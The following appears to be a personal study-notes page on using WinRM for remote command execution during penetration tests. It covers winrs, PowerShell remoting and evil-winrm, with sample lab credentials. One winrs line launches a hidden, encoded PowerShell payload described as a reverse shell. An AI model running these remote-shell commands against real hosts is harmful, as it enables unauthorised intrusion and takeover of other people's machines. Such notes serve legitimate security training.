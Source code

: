 public:: true

- [WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) is the Microsoft version of the [*Web Services-Management*](https://en.wikipedia.org/wiki/WS-Management) (WS-Management) open standard protocol.
- It establishes a session with a remote computer through the SOAP-based WS-Management protocol rather than a connection through [[DCOM]] , as [[WMI]] does. Data returned using the WS-Management protocol is formatted in XML instead of as objects.
- #+BEGIN_IMPORTANT
  It exchanges XML messages over HTTP and HTTPS. For that it uses **TCP port 5986 for encrypted HTTPS traffic** and **port 5985 for plain HTTP**.
  #+END_IMPORTANT
- You can use WinRM in different flavors: Powershell, [`winrs`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) or [`evil-winrm`](https://github.com/Hackplayers/evil-winrm) in linux
- #+BEGIN_IMPORTANT
  In order to connect via WinRM, the target user needs to be part of the **Administrators** or **Remote Management Users** group on the target host.
  #+END_IMPORTANT
- Let's see how to use `winrs` to run the `whoami` command on a remote target logging as user *jen*.
	- ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c whoami"
	  ```
	- As [already shown](((65a01d55-0fd2-4bbd-9251-edd80b50bbb9))) in [[WMI]], we can instead use it to get a reverse shell.
	  ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAG...G4AdAAuAEMAbABvAH"
	  ```
- PowerShell also has WinRM built-in capabilities called [*PowerShell remoting*](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.4). Let's see how to use it to access a remote shell.
	- First, we need to create a [PSCredential](https://learn.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object to store the domain user credentials that we use to access the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  $username = 'jen';
		  $password = 'Nexus123!';
		  $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		  $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		  ```
	- Next, we can point the [*New-PSSession*](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.4) cmdlet to the target machine and pass the PSCredential object.
	  logseq.order-list-type:: number
		- ```powershell
		  New-PSSession -ComputerName 192.168.50.73 -Credential $credential
		  ```
	- At this point a new *PSSession* would be available and we can enter it to interact with the remote shell.
	  logseq.order-list-type:: number
		- ```powershell
		  Enter-PSSession 1
		  ```
- With [[Evil-WinRM]]
	- TODO
	  background-color:: yellow
	- #+BEGIN_CAUTION
	  Don't forget to use the **backslash** instead of the slash web try to connect with a specified domain
	  #+END_CAUTION
		- ```bash
		  # WORKS
		  # =====
		  evil-winrm -i 172.16.197.11 -p 'Password1' -u 'DOMAIN\joe'
		  
		  # DON'T WORK
		  # ==========
		  evil-winrm -i 172.16.197.11 -p 'Password1' -u 'DOMAIN/joe'
		  ```